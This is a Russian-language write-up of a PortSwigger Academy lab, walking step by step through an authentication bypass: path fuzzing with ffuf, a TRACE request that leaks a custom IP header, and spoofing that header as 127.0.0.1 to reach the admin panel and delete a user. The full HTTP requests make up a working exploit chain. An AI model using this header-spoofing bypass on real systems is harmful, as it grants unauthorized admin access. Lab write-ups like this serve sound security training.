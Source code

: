 ```yaml
---
title: "Authentication bypass via information disclosure"
date: 2025-07-10
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass"
classes: wide
---
```


В данной лабораторной работе можно обойти аутентификацию к личному кабинету администратора, но для этого нужно получить кастомный заголовок `HTTP` запроса через отладочные методы `HTTP`-запросов.

Для решения нужно получить доступ к личному кабинету пользователя `carlos` и удалить его аккаунт. Для входа в свою учетку можно использовать данные `wiener`:`peter`.

```
https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
```

##  Solution

Зайду в ЛК:

```http
POST /login HTTP/2
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
Cookie: session=Wl0WMu2OX3zIEymsSIJfaM8GBCOPEird
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=MHHhXRJRIhF8IQ5FrMxo82QhJIgCsybx&username=wiener&password=peter
```

Пока ничего интересного не вижу. Поищу ручки с помощью [ffuf](https://cu63.github.io/tools/ffuf/):

```bash
cu63:~/ $ ffuf -u https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net/FUZZ -w ~/wordlists/common.txt                                      
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0ad4004904fa068f811034cd00bb0086.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /Users/cu63/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

Admin                   [Status: 401, Size: 2592, Words: 1044, Lines: 54, Duration: 61ms]
ADMIN                   [Status: 401, Size: 2592, Words: 1044, Lines: 54, Duration: 66ms]
Login                   [Status: 200, Size: 3185, Words: 1313, Lines: 64, Duration: 62ms]
admin                   [Status: 401, Size: 2592, Words: 1044, Lines: 54, Duration: 64ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 68ms]
filter                  [Status: 200, Size: 10743, Words: 5064, Lines: 199, Duration: 80ms]
login                   [Status: 200, Size: 3185, Words: 1313, Lines: 64, Duration: 65ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 63ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
:: Progress: [4686/4686] :: Job [1/1] :: 37 req/sec :: Duration: [0:01:29] :: Errors: 0 ::
```

Хмм... Будто бы мне на что-то намекают. Пойду смотреть этих ваших админов) Выдало ошибку:

```
Admin interface only available to local users 
```

Закину запрос в `Repeater` и попробую изменить `GET` на `OPTIONS`:

```http
HTTP/2 405 Method Not Allowed
Allow: GET, POST
Content-Type: application/json; charset=utf-8
Set-Cookie: session=46hsgkj2fGn2rQC2m7HDAU5Bj5RM1AgR; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

Пока безуспешно. Может быть `TRACE`? Этот метод используется для отладки. Сервер должен нам отравить полученный пакет обратно:

```http
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 682

TRACE /login HTTP/1.1
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
accept-language: en-US,en;q=0.5
accept-encoding: gzip, deflate, br
referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
upgrade-insecure-requests: 1
sec-fetch-dest: document
sec-fetch-mode: navigate
sec-fetch-site: same-origin
sec-fetch-user: ?1
priority: u=0, i
te: trailers
cookie: session=F4pNxow1kvc4kNvojK2id2aDac4svg4e
Content-Length: 0
X-Custom-IP-Authorization: 91.233.170.191
```

Вот этот параметр выглядит больно подозрительно: `X-Custom-IP-Authorization: 91.233.170.191`. Попробую заменить его на `localhost`:

```http
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 677

TRACE /login HTTP/1.1
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
accept-language: en-US,en;q=0.5
accept-encoding: gzip, deflate, br
referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
upgrade-insecure-requests: 1
sec-fetch-dest: document
sec-fetch-mode: navigate
sec-fetch-site: same-origin
sec-fetch-user: ?1
priority: u=0, i
te: trailers
x-custom-ip-authorization: 127.0.0.1
cookie: session=F4pNxow1kvc4kNvojK2id2aDac4svg4e
Content-Length: 0
```

Сработало. Мое значение не перетерлось. Подставлю его в `GET`-запрос к странице админа:

```http
GET /admin HTTP/2
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
Cookie: session=F4pNxow1kvc4kNvojK2id2aDac4svg4e
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Custom-Ip-Authorization: 127.0.0.1
```

Получилось)

![IMG](/assets/images/PortSwigger/IMG_information_disclosure/IMG_Authentication_bypass_via_information_disclosure/1.png){: height="200" .align-center}

Для удобства сделаю это в браузере. Для этого нажму правой кнопкой мыши на мой запрос и выберу пункт `Show response in browser`. Теперь удалю пользователя, включив проки, чтобы подставить нужное значение:

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a78001904697f8084f3b89b00cf002d.web-security-academy.net
Cookie: session=lxk7eSbUwQylN3FVHqgQ6Np18IyXaYvk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a78001904697f8084f3b89b00cf002d.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Custom-Ip-Authorization: 127.0.0.1
```

Пользователь удален, а значит лаба решена.

![IMG](/assets/images/PortSwigger/IMG_information_disclosure/IMG_Authentication_bypass_via_information_disclosure/2.png){: height="200" .align-center}
